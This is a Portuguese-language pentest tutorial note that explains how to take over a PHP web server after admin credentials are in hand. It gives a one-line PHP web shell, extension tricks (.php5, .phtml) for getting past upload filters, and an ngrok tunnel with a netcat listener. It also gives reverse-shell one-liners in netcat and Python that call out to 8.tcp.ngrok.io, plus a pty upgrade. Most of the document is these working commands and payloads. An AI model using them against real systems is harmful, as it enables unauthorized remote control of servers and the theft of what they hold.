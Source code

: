 ```yaml
---
tags:
  - Pentest
  - WEB
---
```

Para que ocorra essa exploração, é necessário que primeiro já tenha conseguido as *credenciais do admin* por meio da exploração do **xss** e sql **injection**.

# Criando código malicioso para upload

Por meio da linguagem de programação aceita pelo servidor, vamos criar um código que tenha como ser anexado no servidor de forma *mascada*, ultilizando extensões que não sejam barradas por ele. No caso do servidor PHP criaremos como uma extensão 

```shell
nano shell.php5
nano shell.php7
nano shell.phtml
```

- O arquivo malicioso deve ser escrito da seguinte forma:

```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

- Após escrever, fazer o upload do arquivo na página do admin no lugar de uma imagem

- Para testar  os comandos e ver se o arquivo está funcionando, basta rodar qualquer comando do terminal,  -> vamos no diretório **onde se encontra o upload realizado**

# Shell Reversa

Para criar uma shell reversa no servidor, primeiro criaremos um túnel **TCP** com o ngrok para a porta **789** com o netcat:

```shell
nc -lvp 789

./ngrok tcp 789
```

- nc -lvp 789 - **Servidor** que receberá as requisições e será a shell reversa
- ./ngrok tcp 789 - **Túnel** do ngrok que irá apontar o servidor do alvo para o nosso servidor local.

Para saber se no servidor do alvo existe um binário do netcat que aceitará nossa conexão, vamos digitar o seguinte comando e ver o retorno:

```shell
cmd= which nc
```

Para finalmente criarmos a shell reversa, basta colar o seguinte comando na url:

```shell
shell.php5?cmd=nc 8.tcp.ngrok.io 12346 -e /bin/bash
```

- ``8.tcp.ngrok.io`` - Túnel
- `12346` - Porta
-  `-e /bin/bash` - comando para abrir o bash dentro do servidor 

Quando a conexão for estabelecida, já teremos tomado total controle ao servidor:
## Reverse Shell com Python
Também é possivel encontrar Shells Reversas já escritas em outras linguagens pelo github como é o caso do Python.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

#-> ("10.0.0.1",4242) - trocar pelo host e a porta do Ngrok:
#-> ("8.tcp.ngrok.io",12346)

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.tcp.ngrok.io",12346));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

Assim que colar na url, daremos mais um comando shell para expandir esse terminal:

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```



